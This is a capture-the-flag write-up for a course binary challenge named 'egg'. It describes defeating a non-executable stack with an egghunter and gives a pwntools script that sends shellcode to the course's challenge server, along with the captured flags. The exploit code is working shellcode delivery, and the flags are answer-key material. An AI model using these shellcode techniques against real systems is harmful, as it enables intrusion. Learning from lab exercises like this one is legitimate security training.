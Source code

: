 `6447{916709a2-490a-4ee1-b631-62452673a148}`


egg
===========================

General overview of problems faced
-------------------------------------
- Had to learn how to beat a non-executable stack
- Had to learn how to write an egghunter

List of vulnerabilities
------------------------
1. If anything was entered into the small buffer made by the egghunter it will be executed

Steps to exploit
------------------
1. Run checksec to see which security measures have been used, only NX is enabled
2. Find a place in memory to write a short egghunter to place in the small buffer
3. When the previous step is successful execute the big buffer which starts to do the same thing as in simple except the buffer this time isn't esp but esi.
4. Record the flag.

Script/Command used
------------------
```
#!/usr/bin/env python

from pwn import *
import re


p = remote('misc.6447.sec.edu.au', 8006)
#p = process('./egg')

p.recvuntil('smallbuf shellcode')
p.sendline(asm('mov eax, dword [esp+0x38]; jmp eax;'))

p.recvuntil('bigbuf shellcode:')
p.sendline(asm(shellcraft.read(1000, 'esi', 42)) + asm(shellcraft.write(1, 'esi', 42)))

p.recvuntil('* jumping to smallbuf\n')

print(p.recvuntil('}'))

```

`6447{16baa76c-2d52-4972-be1b-d8b600e2c335}`